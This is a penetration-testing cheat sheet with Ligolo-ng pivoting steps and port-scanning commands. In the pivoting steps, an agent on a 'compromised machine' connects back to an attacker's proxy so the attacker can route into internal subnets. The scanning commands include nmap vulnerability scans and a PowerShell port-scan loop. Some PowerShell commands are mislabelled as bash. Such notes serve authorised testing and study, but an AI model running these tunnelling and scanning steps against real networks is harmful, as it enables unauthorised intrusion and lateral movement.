 ```bash
```

# Ligolo-ng

```bash
# Creating interface and starting it.
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# Kali machine - Attacker machine
./proxy -laddr 0.0.0.0:9001 -selfcert

# windows or linux machine - compromised machine
agent.exe -connect <LHOST>:9001 -ignore-cert

# In Ligolo-ng console
session # select host
ifconfig # Notedown the internal network's subnet
start # after adding relevent subnet to ligolo interface

# Adding subnet to ligolo interface - Kali linux
sudo ip r add <subnet> dev ligolo

```

---

# Port Scanning

```bash
# use -Pn option if you're getting nothing in scan
nmap -p- -sT -sV -A $IP
nmap -p- -sC -sV $IP --open
nmap -p- --script=vuln $target

# complete scan
nmap -T4 -A -p- IP -v 

# automated with bashmap (https://github.com/Br14n41/bashmap)
./bashmap.sh ips.txt

# NSE
updatedb
locate .nse | grep <name>

# Here we can specify other options like specific ports...etc
sudo nmap --script="name" IP 

# bash utility
Test-NetConnection -Port <port> IP   

# Automating port scan of first 1024 ports in bash
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("IP", $_)) "TCP port $_ is open"} 2>$null 
```
